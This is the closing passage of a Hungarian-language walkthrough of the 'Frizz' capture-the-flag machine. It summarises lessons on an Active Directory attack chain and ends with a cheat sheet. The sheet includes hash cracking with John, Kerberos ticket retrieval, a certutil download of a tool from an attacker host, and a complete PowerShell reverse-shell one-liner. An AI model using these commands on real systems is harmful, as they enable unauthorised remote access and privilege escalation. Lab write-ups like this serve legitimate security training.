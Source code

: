 
# **Összegzés / Lessons Learned**

- Mindig nézz körbe minden usernél (desktop, backup, config)
- Gibbon CVE = easy foothold, de AD privesc nem triviális
- Hash + salt, John, ticketek = full AD attack chain
- GPO abuse a kulcs, de a refresh és a helyes OU kiválasztása mindent eldönt
- Ha a meterpreter nem él túl, sima powershell vagy netcat shell is elég SYSTEM-hez
- Saját tool buildelés, filemozgatás, időszinkron: ezek is legalább annyira fontosak, mint maga a “támadás”

---

# **Kapcsolódó parancsok, cheat-sheet**

## Hash crackelés

```
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt fizz.txt
```

## Kerberos ticket szerzés

```
impacket-getTGT frizz.htb/<user>:<pass> -dc-ip frizzdc.frizz.htb
export KRB5CCNAME=<user>.ccache
```

## Admin jogosultság ellenőrzése

```
net localgroup administrators
```

## GPO gyors refresh

```
gpupdate /force
```

## Shell download certutil-lal

```
certutil -urlcache -split -f "http://<ip>:<port>/RunasCs.exe" RunasCs.exe
```

## Reverse shell parancs (PowerShell)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

---

## **Ez volt a Frizz gép! Köszi, hogy végigküzdötted!**

Szép chain, sok szívás, de még több tanulás! 🚀


